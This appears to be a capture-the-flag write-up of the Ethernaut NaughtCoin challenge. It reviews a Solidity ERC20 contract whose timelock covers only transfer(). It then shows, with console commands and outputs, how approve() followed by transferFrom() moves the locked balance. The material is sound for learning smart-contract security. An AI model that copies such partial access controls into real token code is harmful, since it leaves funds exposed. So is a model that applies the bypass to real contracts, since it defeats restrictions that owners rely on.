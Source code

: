 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg">

# Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
}
```

Challenge's message:

> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Say welcome this Solidity smart contract for an ERC-20 token called NaughtCoin. It inherits from the OpenZeppelin ERC20 contract, which provides standard functionality for ERC-20 tokens. The contract has an added functionality that prevents the initial owner (player) from transferring tokens until a certain time lock period has passed.

First of all, the contract imports the ERC20.sol file from the "openzeppelin-contracts-08" library, which contains the implementation of the ERC-20 standard. Then, there is a public variable called **timeLock** which is storing the timestamp until which the initial owner cannot transfer tokens. It is set to 10 years (365 days * 10) from the deployment of the contract. After then, **INITIAL_SUPPLY** public variable representing the total initial supply of NaughtCoin tokens. It is initialized to 1,000,000 tokens with 18 decimals. Later, the **player** variable is storing he address of the initial owner of the contract.

In the constructor, it setups classic deployment process. If you don't how to deploy ERC20 contract, you can visit [here.](https://hacken.io/discover/create-erc-20-token/)

In this step, we are looking into the rest of the contract. In the transfer() function, the contract **overrides the transfer function from the ERC20 contract**. It adds a modifier **lockTokens** to the transfer function, which restricts token transfers from the initial owner until the time lock has passed. If the sender (msg.sender) is the player address, the modifier checks if the current timestamp is greater than the timeLock. If it is, the transfer is allowed; otherwise, the transfer is rejected. What is more, if the sender is not the player address, the transfer is allowed without any time restrictions.

Next, there is a **lockTokens** modifier. It checks whether the sender is the player address:

- If it is, the modifier requires that the current timestamp is greater than the **timeLock** variable, effectively enforcing the time lock. If the condition is met, the modifier allows the function to proceed.
- If the sender is not the **player** address, the modifier allows the function to proceed without imposing any time restrictions.

## ERC20 Standard

The ERC-20 standard, short for Ethereum Request for Comment 20, is a technical standard used for the implementation of fungible tokens on the Ethereum blockchain. Fungible tokens are digital assets that are interchangeable with each other, meaning one token is equivalent to another and can be used interchangeably.

The ERC-20 standard defines a set of rules and interfaces that smart contracts must adhere to in order to enable seamless interaction with other contracts and decentralized applications (DApps) on the Ethereum network. Following this standard ensures that tokens will be compatible with various wallets, exchanges, and other decentralized services, fostering interoperability and ease of use.

Key Features of ERC-20:

- **Basic Functionality:** ERC-20 tokens must implement a specific set of functions that allow for basic operations such as transferring tokens between addresses, checking an account's token balance, and approving third-party addresses to spend tokens on behalf of the token holder.
- **Token Identification:** Each token contract must provide a name and symbol for identification purposes. For example, a token representing a fictional currency could have the name "MyToken" and the symbol "MTK."
- **Decimal Precision:** ERC-20 tokens have a fixed decimal precision, meaning the contract specifies the number of decimal places the token can be divided into. For example, a precision of 18 means that 1 token can be divided into 10^18 smaller units (called "wei" in Ethereum).
- **Total Supply:** The contract must track the total supply of tokens minted, and it should be possible to query the total supply at any time.
- **Account Balances:** ERC-20 tokens must keep track of the balance of each token holder's account, and it should be possible to query the balance of any specific account.
- **Token Transfer:** The contract should provide a function to allow token holders to transfer tokens from their account to another specified account.
- **Approvals and Allowances:** Token holders can approve other addresses to spend a certain number of tokens on their behalf. This feature is often used for interactions with other contracts, such as decentralized exchanges.
- **Events:**  ERC-20 tokens often use events to emit notifications about specific contract-related activities, like token transfers or approvals.

It's important to note that while the ERC-20 standard has become the de facto standard for token implementation on the Ethereum blockchain, it does not address all use cases. For example, non-fungible tokens (NFTs) have unique properties and are governed by different standards like ERC-721 and ERC-1155. Nevertheless, ERC-20 remains a fundamental standard for creating fungible tokens that are widely supported within the Ethereum ecosystem.


# Subverting

In this example, we can transfer our balance to another address with the `transferFrom()` function even if the contract requires the timeLock's time for transferring tokens. But, we must give an allowance for some addresses for using the transferFrom() function. That's why, we should call `approve()` function which helps us to define our beneficiary address and legacy value. Let's test it!


First in first, check our balance.

```shell
(await contract.balanceOf(player)).toString()
'1000000000000000000000000'
```

Let's look at the amount which spender is still allowed to withdraw from player. That is zero because of we didn't define any allowance.


```solidity
(await contract.allowance(player, player)).toString()
'0'
```

In this turn, we have defined us as a `_spender` of 10000000000000000000000000 tokens with approve() function. See transaction in [etherscan.](https://sepolia.etherscan.io/tx/0xee4d5333cc4c60ddde903a5c938c01c705b34632224f36b6979b5b445fb1e34e)

```shell
await contract.approve(player, "1000000000000000000000000")
```

```shell
(await contract.allowance(player, player)).toString()
'1000000000000000000000000'
```

In the final step, we transfer all balance to my ex address as a **spender role**. So, we don't attached the require statement. See transaction in [etherscan.](https://sepolia.etherscan.io/tx/0xe31cef4e74fa793caf8cda4c87b1341d0be88ff0df35137057fc8f1cbd4db4d2)

```shell
await contract.transferFrom(player,"0x80aCA4707d5A7B83B6Df80155ee46179AE678d2e","1000000000000000000000000")
```

And, we have set the balance to zero. In other words, we have passed the challenge!

```shell
(await contract.balanceOf(player)).toString()
'0'
```

Ethernaut's message:

> When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that transfer is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.

**_by wasny0ps_**
